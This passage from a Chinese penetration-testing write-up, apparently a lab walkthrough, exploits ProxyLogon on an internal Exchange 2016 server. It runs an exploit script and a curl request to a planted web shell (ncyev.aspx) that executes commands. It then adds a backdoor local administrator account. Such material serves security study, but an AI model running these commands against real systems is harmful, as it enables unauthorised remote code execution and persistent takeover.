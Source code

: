 
经过测试，发现存在版本漏洞 `Exchange Server 2016 [ProxyLogon](https://github.com/hausec/ProxyLogon)漏洞`

### exchange 服务 getshell

`Poc`

```bash
proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab

proxychains curl --request POST --url https://172.22.3.9/owa/auth/ncyev.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[![](assets/1709193375-32b2fc77b9e36445fffe54a7fb59e4c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205043-d1e67318-d56e-1.png)

利用漏洞，进行添加 `管理员用户test`

```bash
net user test P@ssw0rd /add
net localgroup administrators test /add
```

这里有个点，kali `rdesktop`链接失败，可安装 `Remmina`代替，这里我们采取的方法是用 windows 物理机 `mstsc`链接  
参考：[Kali Linux 2020.02 安装 Remmina 远程桌面客户端\_kali remmina-CSDN 博客](https://blog.csdn.net/qq89115156/article/details/106853619)

[![](assets/1709193375-784e0ac40b6b9c8b9ff07a862dee8f1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205050-d589710a-d56e-1.png)
